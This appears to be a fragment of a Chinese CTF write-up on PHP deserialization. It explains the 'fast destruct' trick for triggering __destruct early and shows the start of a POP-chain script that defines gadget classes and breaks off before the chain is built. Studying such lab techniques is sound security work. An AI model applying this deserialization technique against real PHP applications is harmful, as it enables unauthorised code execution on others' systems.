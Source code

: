 ![image-20231211133819510](images/60.png)

因为destruct会在程序结束时类销毁的时候才会触发，这里抛出了异常，可以利用fast destruct提前调用到destruct触发pop链

利用GC垃圾回收机制提前触发Destruct，我平常喜欢直接删除掉末尾的大括号

```
<?php

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}
class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
}

class Web{
    public $func;
    public $var;
}

class Crypto{
    public $obj;
}


$start = new Start();
$pwn = new Pwn();
```